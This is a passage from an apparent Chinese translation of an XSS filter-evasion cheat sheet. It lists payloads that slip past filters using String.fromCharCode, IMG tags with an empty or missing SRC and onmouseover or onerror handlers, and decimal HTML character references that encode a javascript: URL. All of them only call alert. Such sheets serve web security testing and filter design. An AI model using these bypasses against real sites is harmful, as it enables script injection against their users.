 （最初由 Begeek 发现，但已清理并缩短以在所有浏览器中工作）

### fromCharCode

如果系统不允许任何类型的引号，你可以在 JavaScript 中使用 `eval()` 的 `fromCharCode` 来创建你需要的任何 XSS 向量：

```html
<a href="javascript:alert(String.fromCharCode(88,83,83))">点击我！</a>
```

### 默认 SRC 标签以绕过检查 SRC 域的过滤器

这种攻击将绕过大多数 SRC 域过滤器。在事件处理程序中插入 JavaScript 也适用于使用 Form、Iframe、Input、Embed 等元素的任何 HTML 标签注入。这还允许替换标签类型的任何相关事件，如 `onblur` 或 `onclick`，提供了这里列出的注入的广泛变体：

```html
<IMG SRC=# onmouseover="alert('xxs')">
```

（由 David Cross 提交，并由 Abdullah Hussam 编辑）

### 通过留空来设置默认 SRC 标签

```html
<IMG SRC= onmouseover="alert('xxs')">
```

### 通过完全省略来设置默认 SRC 标签

```html
<IMG onmouseover="alert('xxs')">
```

### 错误时警报

```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

### IMG onerror 和 JavaScript 警报编码

```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```

### 十进制 HTML 字符引用

由于在 `<IMG` 标签内使用 `javascript:` 指令的 XSS 示例在 Firefox 上不起作用，这种方法使用十进制 HTML 字符引用作为解决方案：

```html
<a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;">点击我！</a>
```

### 没有尾随分号的十进制 HTML 字符引用
